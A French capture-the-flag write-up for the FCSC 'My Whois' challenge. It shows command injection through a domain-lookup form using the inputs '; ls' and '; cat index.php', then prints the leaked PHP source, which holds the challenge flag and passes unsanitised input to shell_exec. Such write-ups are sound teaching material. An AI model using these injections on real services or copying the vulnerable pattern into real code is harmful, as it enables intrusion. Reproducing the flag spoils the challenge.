


# My Whois - 25 pts

> Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
> http://challenges1.france-cybersecurity-challenge.fr:7001

Voici la tête du site en question :



Si l'on rentre un domaine cela fonctionne en effet. Mais il y a fort à parier que le serveur exécute la commande shell `whois <input>` alors essayons d'envoyer `; ls` pour qu'il fasse la commande `whois; ls` et nous envoie le résultat :



Essayons de voir le code PHP avec un `; cat index.php` :

```php
<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
[...]
```

